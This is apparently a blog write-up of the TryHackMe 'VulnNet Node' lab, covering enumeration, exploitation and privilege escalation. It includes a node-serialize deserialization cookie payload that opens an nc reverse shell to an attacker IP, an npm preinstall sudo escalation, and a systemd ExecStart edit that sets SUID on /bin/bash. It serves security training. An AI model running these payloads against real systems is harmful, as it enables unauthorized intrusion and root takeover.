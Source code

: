 ```yaml
---
title: Vulnet Node
date: 2022-09-13 02:30:00 +0530
tags: [Linux, TryHackMe]
category: [Linux, Tryhackme]
---
```

# ENUMERATION
Lets start with port scan.
```bash
Nmap scan report for 10.10.94.18
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

```

We have only one port open which is running nodejs. We can also verify this by *HTTP-Headers*.
```bash
HEAD / HTTP/1.1

HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D; Max-Age=1200; Path=/; Expires=Wed, 14 Apr 2021 18:32:37 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 7599
ETag: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
Date: Wed, 14 Apr 2021 18:12:37 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

We have a header `X-Powered-By: Express` which tells the server is running NodeJs. Also we have a cookie already without any login. Decoding the cookie
```json
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```
Changing username to `admin` and `isGuest` param to true, we were welcomed as admin. But nothing interesting. From this, lets try javascript deserialization attack.
Using few blog post, came across a payload. Final payload
```javascript
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.5.42 9991 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```
Base64 encode this and send it to the server. We have a connection back. 

### Shell as www-data
Looking at the *server.js*, we found the vulnerability. Our cookie was directly going in unserialize function without any sanitization.

```javascript
app.get('/', function(req, res) {
 if (req.cookies.session) {
   var str = new Buffer(req.cookies.session, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     var username2 = JSON.stringify(obj.username).replace(/[^0-9a-z]/gi, '');
     obj.username = username2
     res.render('../index', {username: obj.username})
```

Checking for command with sudo rights
```bash
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

We have rights to run `npm` as `serv-manage` user. Tried running it in */tmp* directory, but it was unsuccessful as we dont have write permission there. Only writable directory was */dev/shm* and obv our home dir.
```bash
cd /dev/shm
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo -u serv-manage npm -C .i
```
Got shell as `serv-manage` user and can grab user.txt now.


### ROOT

Checking for sudo permission again for this user, we found:

```bash
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```
Current user can start and stop `vulnnet-auto.timer` service. Looking at permission of this service, seems to be writable by `serv-manage` user.
```bash
serv-manage@vulnnet-node:/dev/shm$ ls -la /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24 16:59 /etc/systemd/system/vulnnet-auto.timer
```
Looking at content of this service
```bash
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```
This service was calling another service named `vulnnet-job.service`. Checking permission of the same and it was readable & writable by our current user. Checking the content
```
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

As we can edit this file, we can change the `ExecStart` param to execute a malicious command.
```bash
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=chmod +xs /bin/bash

[Install]
WantedBy=multi-user.target
```
The above changes in the service does not seems to work. Changing `ExecStart=chmod +xs /bin/bash` to `/bin/bash -c "chmod +xs /bin/bash"`.
```bash
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "chmod +xs /bin/bash"

[Install]
WantedBy=multi-user.target
```
Starting the service. And we have suid bit set on `/bin/bash`
```bash
serv-manage@vulnnet-node:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```
Now we can simply use `bash -p` and we are root.
